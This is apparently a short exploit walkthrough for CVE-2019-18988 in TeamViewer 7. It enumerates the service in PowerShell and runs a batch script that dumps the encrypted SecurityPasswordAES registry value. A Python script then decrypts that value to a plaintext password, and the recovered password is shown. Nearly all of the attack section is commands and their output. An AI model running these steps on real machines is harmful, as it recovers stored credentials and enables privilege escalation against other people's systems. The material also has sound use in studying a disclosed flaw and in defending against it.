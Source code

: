# CVE-2019-18988 - TeamViewer7 - decrypt password - Local Privilege Escalation

## Enumeration

```powershell
PS C:\Temp> tasklist /svc | findstr /I teamviewer
TeamViewer_Service.exe        2248 TeamViewer7
```

```powershell
PS C:\> Get-Service TeamViewer*

Status   Name               DisplayName
------   ----               -----------
Running  TeamViewer7        TeamViewer 7
```

```powershell
PS C:\> C:\Temp\CVE-2019-18988.bat
...
    Version    REG_SZ    7.0.43148
...
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x659d58d6
    UsageEnvironmentBackup    REG_DWORD    0x1
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3
...
```

## Exploitation

```bash
$ cat CVE-2019-18988.py | grep 'password = "'
password = "FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B"
```

```bash
$ python3 CVE-2019-18988.py
00000000: 21 00 52 00 33 00 6D 00  30 00 74 00 65 00 21 00  !.R.3.m.0.t.e.!.
00000010: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
None
!R3m0te!
```

## Links

- [whynotsecurity - teamviewer](https://whynotsecurity.com/blog/teamviewer/)
- [teamviewer - CVE-2019-18988](https://community.teamviewer.com/t5/Announcements/Specification-on-CVE-2019-18988/td-p/82264)
